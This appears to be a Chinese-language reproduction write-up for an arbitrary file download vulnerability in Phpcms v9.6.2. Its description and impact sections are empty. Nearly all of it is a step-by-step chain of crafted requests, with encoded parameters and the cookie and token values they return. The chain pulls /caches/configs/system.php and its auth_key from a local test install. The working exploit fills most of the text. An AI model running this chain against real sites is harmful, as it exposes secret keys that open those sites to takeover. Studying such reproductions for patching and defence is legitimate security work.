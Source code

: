 Phpcms v9.6.2 任意文件下载
==========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

##### 第一步:进行如下请求获得YDVIB\_siteid的值。

请求：

    [GET]http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=wap&c=index&a=init&siteid=1

获得：

    [cookie]YDVIB_siteid:75d1XCnlbSh-1zi2xZ-gearAbSsmOcXypuSKXZst

##### 第二步:在\[POST DATA\] 中的userid\_flash参数的值设置为，第一步请求得到的YDVIB\_siteid参数的值，并进行如下请求。

请求：

    [GET] http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=attachment&c=attachments&a=swfupload_json&src=a%26i=1%26m=1%26catid=1%26f=./caches/configs/system.ph%253ep%2581%26modelid=1%26d=1&aid=1

    [POST DATA] userid_flash=75d1XCnlbSh-1zi2xZ-gearAbSsmOcXypuSKXZst

获得：

    [cookie] YDVIB_att_json:ea6fUlmiupVPoK2udMAztI7dpqUURRW1plemEGmRhGPocAvwWbcMk3BARFHzxLI4NJrV1IJQ2PaHeec790iDdhRJ9dJbhEKamgM55SwKR-F3fFmmWDOVuHnyiWg9kyMzQ2l9D_cRPQmM7P9e7ZYrESNQwjMOytrFTIhY4SFmK2Vjc3GS3g

##### 第三步:将GET请求中的a\_k参数的值设置为第二步请求获得的YDVIB\_att\_json参数的值，并进行如下请求。

请求：

    [get] http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=content&c=down&a=init&a_k=41f4VsAhLvN8-4L1ntgSsuga4BrvYA5zcDo2bjiYB7RI98Qzj5D5k8dqqBfo7cUNwF3TGhz1SH-vPs3lIIQJYwHeF_u2b3QVfD2HIO3Gay68TAtz2rqYhX8XIeznWrTtOI24418KZUoTEAfnY4kZNtIajW-bqHRV1djqmEc1hSAwkIYWA9CPrw

获得：

    http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=content&c=down&a=download&a_k=7e9d9SFk0jOteAemg-j7IVn6Ph1JFU9FEkyDo9xeasNJDPgZsOhusc39D4KiHzydJwt2B4iLuu-l9w03UV47obM9nsnjcJxi2jbawvqfZWcY9PeL3j0MgKxAvgXL4-dbf8gGG6_EJXIOA2p9Jkl9QcM

##### 最后点击"点击下载"的按钮进行如下请求，便可以下载/caches/configs/system.php文件，得到里面的'auth\_key'

    http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=content&c=down&a=download&a_k=7e9d9SFk0jOteAemg-j7IVn6Ph1JFU9FEkyDo9xeasNJDPgZsOhusc39D4KiHzydJwt2B4iLuu-l9w03UV47obM9nsnjcJxi2jbawvqfZWcY9PeL3j0MgKxAvgXL4-dbf8gGG6_EJXIOA2p9Jkl9QcM

![](./resource/Phpcmsv9.6.2任意文件下载/media/rId28.png)

参考链接
--------

> <https://www.freebuf.com/column/158352.html>
